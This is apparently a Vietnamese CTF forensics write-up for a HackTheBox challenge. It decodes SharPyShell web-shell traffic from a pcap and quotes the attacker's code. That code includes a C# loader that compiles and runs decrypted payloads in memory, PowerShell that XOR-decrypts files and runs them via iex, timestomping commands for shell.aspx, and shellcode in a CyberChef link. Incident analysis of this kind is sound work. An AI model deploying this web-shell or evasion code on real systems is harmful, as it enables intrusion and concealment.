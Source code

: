 Window's Infinity Edge
====

Lưu ý: đây là cách mình đã suy nghĩ xuyên suốt cả bài cho tới khi tìm thấy flag, nếu mọi người muốn nhanh gọn lẹ thì hãy nhảy tới TLDR giúp mình, mình xin cảm ơn 
<p align="center">
  <img src="https://github.com/P5ySm1th/noob-learn-cybersec/assets/100250271/55b7fbfb-be07-4415-a477-ee118f6d3d60">
</p>


**Link tải file:** [tại đây](https://github.com/P5ySm1th/noob-learn-cybersec/blob/main/hackthebox/Window's%20Infinity%20Edge/Others/2019-11-12_21_00_30-EXT07.pcap)

Download file đề về thì ta có một file capture bằng `wireshark`. Mở ra phân tích trong file `pcap` có gì  thì ta thấy nó các gói giao thức `HTTP`.


<p align="center">
  <img src="https://github.com/P5ySm1th/noob-learn-cybersec/assets/100250271/e4b33726-a3e9-47f4-8d84-139be91a2184">
</p>

Trace vào bên trong các `TCP stream` của các gói `HTTP` thì ta thấy được có một hàm được viết bằng `sharpyshell` dành cho web được viết dưới cho `ASP.NET`. Bạn có thể xem [tại đây](https://github.com/antonioCoco/SharPyShell)

**Bạn có thể xem TCP stream đó** [tại đây](https://github.com/P5ySm1th/noob-learn-cybersec/blob/main/hackthebox/Window's%20Infinity%20Edge/Others/Sharpy.aspx)

Phân tích Source code ta có thể thấy như sau: 

- Biến `r` sẽ giữ request gửi lên 
- Biến `int_arr` và `int_arr_r` sẽ được sử dụng trong vòng for và sau đó sẽ được sử dụng với hàm `Assembly.load`. Sau đó sẽ thực hiện hàm `Invoke` và trả về server.

Sau khi biết được nguyên lý hoạt động của đoạn code. Vì nưhu trên, biến `int_arr` và `int_arr_r` được sử dụng trong method `Invoke` nên bây giờ chúng ta sẽ dump nó ra để xem trong đó có gì. 

**Đoạn code bạn có thể xem** [tại đây](https://github.com/P5ySm1th/noob-learn-cybersec/blob/main/hackthebox/Window's%20Infinity%20Edge/Others/Deocde%20exe.cs)

Sau khi ra được file, ta sẽ kiểm tra bằng `HxD` và ta có kết quả đây là một đầu header file `exe`

<p align="center">
  <img src="https://github.com/P5ySm1th/noob-learn-cybersec/assets/100250271/69fc27a8-b329-4242-a53a-7a2d82b39269">
</p>

Sau đó bỏ vào các công cụ phân tích như `DIE` thì thấy rằng đây là một file `.NET`

<p align="center">
  <img src="https://github.com/P5ySm1th/noob-learn-cybersec/assets/100250271/0edeced3-0523-4ee0-8be2-ee12b9df5689">
</p>

Giờ chỉ cần bỏ vào `DNSpy` hoặc `ILSpy` để phân tích tiếp.

```C#
public string Run(string code, string password)
{
	byte[] key = this.ConvertHexStringToByteArray(password);
	byte[] iv = new byte[]
	{
		105,
		110,
		102,
		105,
		110,
		105,
		116,
		121,
		95,
		101,
		100,
		103,
		101,
		104,
		116,
		98
	};
	string result = "";
	if (code != null)
	{
		byte[] encrypted = Convert.FromBase64String(code);
		byte[] bytes = this.AESDec(encrypted, key, iv);
		string @string = Encoding.UTF8.GetString(bytes);
		object obj = new object();
		CompilerResults compilerResults = null;
		try
		{
			CSharpCodeProvider csharpCodeProvider = new CSharpCodeProvider();
			compilerResults = csharpCodeProvider.CompileAssemblyFromSource(new CompilerParameters
			{
				GenerateInMemory = true,
				GenerateExecutable = false,
				ReferencedAssemblies = 
				{
					"System.dll"
				}
			}, new string[]
			{
				@string
			});
			object obj2 = compilerResults.CompiledAssembly.CreateInstance("SharPyShell");
			MethodInfo method = obj2.GetType().GetMethod("ExecRuntime");
			obj = method.Invoke(obj2, null);
		}
		catch (Exception ex)
		{
			string text = ex.ToString() + "\n\n{{{SharPyShellError}}}";
			for (int i = 0; i < compilerResults.Errors.Count; i++)
			{
				text = text + i.ToString() + ": " + compilerResults.Errors[i].ToString();
			}
			obj = Encoding.UTF8.GetBytes(text);
		}
		byte[] inArray = this.AESEnc((byte[])obj, key, iv);
		string text2 = Convert.ToBase64String(inArray);
		result = text2;
	}
	return result;
}
```

Nhìn vào đoạn code trên thì ta có thể thấy đây là một đoạn mã hoá `AES` đơn giản, nhận vào hai tham số là `code` và `password`.

- Biến `password` được đùng dể làm key
- `iv` đã được cho sẵn từ trước
- Biến `code` được encode`AES` và sau đó được `base64` lên và sau đó được trả về dưới biến `result`.

Vì thế chúng ta có thể thấy là server trên Wireshark trả về cho chúng ta đoạn mã `base64` chính là do đoạn thực thi này trả về. 

Khi biết được luồng chương trình hoạt động thì mình đã bắt đầu viết một đoạn script nhỏ có thể decrypt được communication bên trong `wireshark`.

```python
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

iv = b"infinity_edgehtb"
key = bytes.fromhex("4d65bdbad183f00203b1e80cf96fba549663dabeab12fab153a921b346975cdd")
def decrypt(ciphertext, key, iv):
    cipher = AES.new(key, AES.MODE_CBC, iv)
    plaintext = unpad(cipher.decrypt(ciphertext), AES.block_size)
    return plaintext
i1 = 0
with open('http.txt','r') as f:  
    for i in  f.readlines():
      try:
        encrypted = base64.b64decode(bytes.fromhex(i).decode())
        with open(f'/home/kali/Desktop/decrypt/{i1}.cs', 'wb') as f1:
          f1.write(decrypt(encrypted, key, iv))
        # print(decrypt(encrypted, key, iv))
        i1+=1
      except:
        continue 
```

Sau khi decrypt được các file `c#` communication thì chúng ta sẽ phân tích qua các file đó.

Các bạn có thể xem full file [tại đây](https://github.com/P5ySm1th/noob-learn-cybersec/tree/main/hackthebox/Window's%20Infinity%20Edge/Others/SHELL%20SCRIPT%20FILE)

Vì không muốn quá dài dòng, nên mình chỉ nói những hành động chính mà `attacker` làm trên máy của `nạn nhân`. 

- Upload một file có tên là `tbyjzt4vw6y` tại các file `9,10,11,12,13,14.cs`
- Upload một file có tên là `3186q1r3kpvk` tại file `16.cs`
- Tại file số `17` ta có thể thấy dược tác giả đã sử dụng một đoạn `powershell` dùng để `decrypt` với `xor`  như sau:
```powershell
	$ProgressPreference = "SilentlyContinue";
	$path_in_module="C:\Windows\Temp\x1fvogijp5pyzn7\tbyjzt4vw6y";2
	$path_in_app_code="C:\Windows\Temp\x1fvogijp5pyzn7\3186q1r3kpvk";
	$key=[System.Text.Encoding]::UTF8.GetBytes('4d65bdbad183f00203b1e80cf96fba549663dabeab12fab153a921b346975cdd');
	$enc_module=[System.IO.File]::ReadAllBytes($path_in_module);
	$enc_app_code=[System.IO.File]::ReadAllBytes($path_in_app_code);
	$dec_module=New-Object Byte[] $enc_module.Length;
	$dec_app_code=New-Object Byte[] $enc_app_code.Length;
	for ($i = 0; $i -lt $enc_module.Length; $i++) {
		$dec_module[$i] = $enc_module[$i] -bxor $key[$i % $key.Length];
	};
	for ($i = 0; $i -lt $enc_app_code.Length; $i++) {
		$dec_app_code[$i] = $enc_app_code[$i] -bxor $key[$i % $key.Length];
	};
	$dec_module=[System.Text.Encoding]::UTF8.GetString($dec_module);
	$dec_app_code=[System.Text.Encoding]::UTF8.GetString($dec_app_code);
	$($dec_module+$dec_app_code)|iex;
	Remove-Item -Path $path_in_app_code -Force 2>&1 | Out-Null;"
```

- Sau đó ở file số`18`, ta có thể thấy là nó sử dụng hàm `InjectShellcode` sử dụng `base64` kết hợp với `gzip` để decode ra một thành một file `shellcode` kết hợp với `parameter` cũng sử dụng `base64` và `gzip`. Nhìn sơ qua về đoạn `paramter` của file số 18 thì ta thấy rằng nó sử dụng một các command như trong hình như sau: 

<p align="center">
  <img src="https://github.com/P5ySm1th/noob-learn-cybersec/assets/100250271/e7019cef-c5d9-4a90-bb51-9aff3417557f">
</p>

Nhìn sơ qua đoạn dầu thì ta có thể biết được là hacker đang sử dụng đoạn `parameter` có lẽ như là dùng để truy cập vào `notepad` dưới tên `9nu8w1q`. Sau đó nếu trỏ xuống bên dưới thì ta thấy được một số câu lệnh mà nó sử dụng bằng cmd như sau: 

<p align="center">
  <img src="https://github.com/P5ySm1th/noob-learn-cybersec/assets/100250271/514623c6-9e22-4b33-a66d-134684172cc8">
</p>

- Add thêm một user mới thông qua câu lệnh `cmd` với tên là `infinity` với group là `admin`
- Sau đó thêm vào nội dung của file `xor.k` là `xGk89_Ew`

Sau đó tại file `20.cs` thục hiện lệnh `whoami`và ghi vào `C:\Windows\Temp\x1fvogijp5pyzn7\z73b9`. Trong trường hợp nếu xảy ra lỗi tguf sẽ được lưu vào dưới đường dẫn sau `C:\Windows\Temp\x1fvogijp5pyzn7\6p1q9tforulxt0`

Tại file `21.cs` sẽ tạo hai file từ vị trí `C:\Windows\Temp\infinity_edge` với các đường dẫn như sau: 
- C:\Windows\Temp\x1fvogijp5pyzn7\fnq6sghi4kqpu
- C:\Windows\Temp\x1fvogijp5pyzn7\6s1gcx6zzl         


Tiếp tục file `22.cs` nó sử dụng tiếp câu lệnh sử dụng `shellcode` nhưng lại không truyền vào một tham số nào cả.

Các file còn lại trong đó thì được tóm tắt llaij nhưu sau:
 
```powershell
#file 23: từ infinity_edge chuyển sang dir C:\inetpub\wwwroot\webapp
#file 26: 
$ProgressPreference = "SilentlyContinue";$(Get-Item C:\inetpub\wwwroot\webapp\shell.aspx).CreationTime = Get-Date ((Get-Item C:\inetpub\wwwroot\webapp\upload.aspx ).CreationTime)
#file 27:
$ProgressPreference = "SilentlyContinue";$(Get-Item C:\inetpub\wwwroot\webapp\shell.aspx).lastaccesstime = Get-Date ((Get-Item C:\inetpub\wwwroot\webapp\upload.aspx ).lastaccesstime)
#file 28:
$ProgressPreference = "SilentlyContinue";$(Get-Item C:\inetpub\wwwroot\webapp\shell.aspx).lastwritetime = Get-Date ((Get-Item C:\inetpub\wwwroot\webapp\upload.aspx ).lastwritetime)
```

Nhận thấy được file số 22 khá khả nghi khi load shellcode vào nhưng không sử dụng một `parameter` nào cả, vì thế chúng ta sẽ sử câu lệnh dump giống nhưu file `18` đã làm. Load vào `HXD`, để ý kỹ thì trong shellcode có nhận vào file 

<p align="center">
  <img src="https://github.com/P5ySm1th/noob-learn-cybersec/assets/100250271/6c930ce4-38c7-4d0c-bdd5-f3697a2f16b7">
</p>

Nếu chúng ta lấy file đó mà đi `xor` với phần bên trong `xor.k`, xoá một số byte đầu tiên thì ta sẽ ra kết quả

<p align="center">
  <img src="https://github.com/P5ySm1th/noob-learn-cybersec/assets/100250271/5576623b-0601-4fb2-92fe-8d948f339d1a">
</p>

Hoặc có thể xem [tại đây](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'UTF8','string':'xGk89_Ew'%7D,'Standard',false)&input=8OjEAAAAQVFBUFJRVkgx0mVIi1JgSItSGEiLUiBIi3JQSA%2B3SkpNMclIMcCsPGF8AiwgQcHJDUEBweLtUkFRSItSIItCPEgB0GaBeBgLAnVui4CIAAAASIXAdGNIAdBQi0gYRItAIEkB0ONSSP/JQYs0iEgB1k0xyUgxwKxBwckNQQHBOOB18UwDTCQIRTnRddhYRItAJEkB0GZBiwxIRItAHEkB0EGLBIhIAdBBWEFYXllaQVhBWUFaQVL/4FhBWVpIixLpU////11Ig%2BxASMdEJDAAAAAAx0QkKAAAAADHRCQgAwAAAEUxyUG4AQAAALoAAACASI2NaQEAAEG62vbaT//VSIlEJEBIx0QkIAAAAABMjY1ZAQAAQbgIAAAASI2VYQEAAEiLTCRAQbqtnl%2B7/9VIi0wkQEG6xpaHUv/VSIuFYQEAALkQAAAASI2VcgEAAEgxAkiDwgji9%2BsZAAAAAAAAAAAAAAAAAAAAAGM6XHhvci5rAJNRMgnrHv9G8yjsx%2BwXdL45/Sa5IvW6opCilMfGPCgTViITXRlwJlcdJANXGRcRNQMBWlYNMykOJz5bTWY8N0cLNFhcZistRCciD18KfjhXRmcoAmUoLBkcKBxLZSsgGggbAlZfNiseDD40XV04ICseKwpfFys9A3g)

Sở dĩ phải xoá một số byte trong shellcode tại vì shellcode này giống như là một đoạn code assembly. Và trong đó một hàm được gọi là hàm Xor. Khi xoá đi một số byte đầu thì vô tình làm cho nó xor về được `flag`.

### Flag: HTB{F1n4lly_y0u_cr0ss3d_th3_edg3!}


